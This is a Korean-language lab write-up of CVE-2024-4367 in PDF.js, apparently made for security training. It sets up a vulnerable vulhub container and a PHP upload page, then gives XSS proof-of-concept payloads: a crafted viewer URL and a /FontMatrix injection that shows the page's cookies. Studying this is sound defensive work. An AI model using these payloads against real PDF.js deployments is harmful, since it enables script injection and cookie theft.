


# CVE-2024-4367
| whs 3기 이유진

## 개요
PDF.js는 HTML5로 구축된 PDF(Portable Document Format) 뷰어입니다.

4.1.392 이전 PDF.js 버전에서 JavaScript 코드 삽입 취약점이 발견되었습니다. 이 취약점을 악용하여 공격자는 악성 PDF 파일을 여는 즉시 임의의 JavaScript 코드를 실행할 수 있습니다.

Mozilla에서 개발 및 관리하는 자바스크립트 기반의 pdf 뷰어인 PDF.js 라이브러리에 존재하는 XSS(크로스사이트 스크립팅) 취약점입니다.

정확히는 crafted URL(조작된 URL)을 통해 PDF.js 뷰어 안에서 임의의 스크립트를 실행할 수 있습니다.

## 환경 구축

### docker-compose.yml
```
version: '2'
services:
 web:
   image: vulhub/pdfjs:4.1.392
   volumes:
    - ./index.php:/var/www/html/index.php
   ports:
    - "8080:80"
```

### 테스트 환경 만들기
```
docker compose up -d
```

### 페이지 접속 하기
`http://your-ip:8080` 를 통해 페이지에 접속할 수 있다.


### index.php
PDF 파일을 업로드 받고, 업로드가 완료되면 PDF.js 뷰어를 통해 업로드한 파일을 볼 수 있도록 리다이렉트 시키는 간단한 파일 업로드 페이지를 구현하였다.
```php
<?php
if (!empty($_FILES)):

// Check for errors
if($_FILES['file_upload']['error'] > 0){
    die('An error ocurred when uploading.');
}

// Check filesize
if(!is_uploaded_file($_FILES['file_upload']['tmp_name'])) {
    die('File is not uploaded file');
}

$ext = pathinfo($_FILES['file_upload']['name'], PATHINFO_EXTENSION);
if ($ext !== 'pdf') {
    die('Unsupported filetype uploaded.');
}

$new_name = uniqid() . '.pdf';
if(!move_uploaded_file($_FILES['file_upload']['tmp_name'], __DIR__ . '/upload/' . $new_name)){
    die('Error uploading file - check destination is writeable.');
}

header('Location: /web/viewer.html?file=../upload/' . $new_name, true, 302);
exit;
else:
?>
<form method="post" enctype="multipart/form-data">
    File: <input type="file" name="file_upload">
    <input type="submit">
</form>
<?php
endif;
```

- `header('Location: /web/viewer.html?file=../upload/' . $new_name, true, 302);` 부분을 통해 브라우저를 `/seb/viewer.html`로 리다이렉트한다.
- `enctype="multipart/form-data"` 설정을 통해 파일 업로드를 할 수 있도록 한다.
    - 파일 저장위치는 `upload/` 이고, `uniqid()`를 통해 고유 ID를 사용한다.

| PDF.js를 이용하여 PDF를 열람시켜주는 웹 서버이며, URL인코딩 등 검증이 미흡함. `viewer.html?file=` 파라미터를 통해 조작이 가능하며, 사용자가 공격자가 보낸 링크를 클릭하거나 악성 pdf를 열람할 수 있다.

## PoC

1. Crafted URL을 통한 XSS
```
http://your-ip:8080/web/viewer.html?file=javascript:alert(document.domain)
```
- file 파라미터에 `javascript:` 를 삽입하여 PDF.js가 이를 실행하도록 만들 수 있다. 
    - alert(document.domain) 실행

2. 악성 PDF 파일을 통한 XSS (poc.pdf)
```
/FontMatrix [0.1 0 0 0.1 0 (1\); \nalert('document.domain: '+window.document.domain+'\nlocation: '+window.location+'\ncookie: '+window.document.cookie)]
```
- `/FontMatrix` 에 자바스크립트 삽입
    - FontMatrix는 폰트의 변환 행렬을 지정하는 부분인데, 처음 앞부분은 정상적으로 삽입하여 정상적인 행렬 수치로 해석하게 한 후, 6번째 실수부분을 문자열을 삽입한다.
        - 파서가 숫자가 아니라 문자열로 해석하거나 구문오류를 무시하고 실행하는 경우 해당 부분이 실행되게 된다.
    - 텍스트 렌더링 과정에서 `/FontMatrix`를 파싱하여 삽입된 스크립트 실행 가능

즉, 원래 숫자만 와야 하는 /FontMatrix 마지막 자리에 JavaScript 코드를 몰래 심어 브라우저를 조종하는 기법이다.


index.php 업로드 폼에 악성 pdf 삽입한 결과


## 출처
https://github.com/vulhub/vulhub/tree/master/pdfjs/CVE-2024-4367
https://hackyboiz.github.io/2024/05/22/pwndorei/2024-05-22/